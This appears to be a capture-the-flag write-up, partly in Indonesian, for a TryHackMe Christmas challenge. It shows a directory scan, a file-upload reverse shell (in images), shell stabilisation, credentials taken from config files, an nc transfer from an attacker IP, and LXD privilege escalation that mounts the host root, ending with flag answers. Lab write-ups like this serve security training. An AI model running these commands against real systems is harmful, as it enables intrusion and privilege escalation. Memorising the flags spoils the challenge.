# Day 24 |  The Trial Before Christmas

It was the night before Christmas and The Best Festival Company could finally rest. All of the toys had been made and the company had recovered from attack after attack. Everything was in Santa's hands now, leaving the elves to do little more than wish him a safe journey ahead. Elf McEager sat at his terminal staring absentmindedly at light snow that had begun to fall. Just as he had drifted off to sleep Elf McEager was jolted to attention as a small parcel appeared just at the edge of his view. 

The present was wrapped in a deep blue velvet that appeared to shimmer in and out of the firelight, not unlike a blinking terminal prompt. Carefully, Elf McEager reached for the azure ribbon, untying it slowly so as to not damage it. The velvet slowly fell away, revealing a small NUC computer with a letter on top. Unfolding the letter, Elf McEager read it aloud:


"Elf McEager - your boundless effort to save Christmas this year has not gone unnoticed. I wanted to reward you with a special present, however, there's a catch. Elf McSkidy and I have seen your skills advance and we feel it would only be appropriate to give you a present after one last challenge. Inside this package, you'll have also found a computer. Plug this into the network and hack into it. Best of luck and Merry Christmas - Santa"


Without delay, Elf McEager connected the NUC appropriately and watched it whir to life. A small screen nearby the power button blinked and then displayed the IP address assigned to the device. Next to the IP, a small symbol appeared. McEager quietly wondered to himself what it could mean as he logged into his terminal, ready to start his final challenge. 


---
Scan the machine. What ports are open?

What's the title of the hidden website? It's worthwhile looking recursively at all websites on the box for this step. 


	


What is the name of the hidden php page?

```
gobuster dir -u http://10.10.96.179:65000/ -w /opt/SecLists/Discovery/Web-Content/raft-medium-directories.txt -x php
```






What is the name of the hidden directory where file uploads are saved?

grid





### Bypass the filters. Upload and execute a reverse shell. 

Reverse Shell



Bypass filters



Refresh the page






Listener + Shell upgrade



### What is the value of the web.txt flag?



### Upgrade and stabilize your shell. 

Kita dapat melakukan upgrade shell melalui python3 atau script


Python (disesuaikan dengan versi):

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Script:
```
script /dev/null
```

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password



tron:IFightForTheUsers

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?






### Crack the password. What is it?



### Use su to login to the newly discovered user by exploiting password reuse. 


### What is the value of the user.txt flag?



### Check the user's groups. Which group can be leveraged to escalate privileges? 


https://itsef.medium.com/hack-the-box-tabby-10-10-10-194-scratch-27ec40161646

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation


Sender (attacker):
```
nc -nvlp 9001 < alpine-v3.12-x86_64-20201107_1900.tar.gz
```

Receiver:
```
nc 10.9.30.115 9001 > alpine-v3.12-x86_64-20201107_1900.tar.gz
```

Abuse LXD/LXC

```
$ lxc image import /tmp/alpine-v3.12-x86_64-20201107_1900.tar.gz --alias iamf-img
$ lxc config device add img-container iamf-test disk source=/ path=/mnt/root
$ lxc start img-container
$ lxc exec img-container sh
```



THM{FLYNN_LIVES}

